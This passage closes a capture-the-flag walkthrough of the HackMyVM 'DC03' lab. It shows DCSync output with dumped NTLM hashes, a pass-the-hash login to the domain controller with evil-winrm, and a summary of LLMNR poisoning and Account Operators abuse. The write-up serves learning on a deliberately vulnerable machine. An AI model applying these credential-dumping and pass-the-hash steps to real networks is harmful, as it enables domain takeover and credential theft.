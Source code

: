 ```bash
SMB         SOUPEDECODE.LOCAL 445    DC01             soupedecode.local\kleo2:1105:aad3b435b51404eeaad3b435b51404ee:bda63615bc51724865a0cd0b4fd9ec14:::
SMB         SOUPEDECODE.LOCAL 445    DC01             soupedecode.local\eyara3:1106:aad3b435b51404eeaad3b435b51404ee:68e34c259878fd6a31c85cbea32ac671:::
<SNIP>
```

Once we have the administrator password, we can stop the DCSync attack and login to the domain controller using pass the hash.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC03]
└─$ evil-winrm -u administrator -H 2176416a80e4f62804f101d3a55d6c93 -i 10.0.2.33
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls ..\Desktop


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         7/31/2024  10:33 PM             70 root.txt
```
*NB: In a real-world assessment, we could dive into the full DCSync attack, followed by an offline brute-force attempt. This approach also provides the client with valuable insights into password security.*

## Conclusion

Congratulations! In this walkthrough, you have used LLMNR \| NBT-NS poisoning attack to capture and crack the password of a member of the Account Operators group. Finally, you used the Account Operators group membership privileges to change the password of an account with domain admin privileges through nested group memebrship. This machine was designed to show how the use of weak passwords and deprecated protocols could seriously affect the security posture of an organisation. Thank you for following up on this walkthrough.
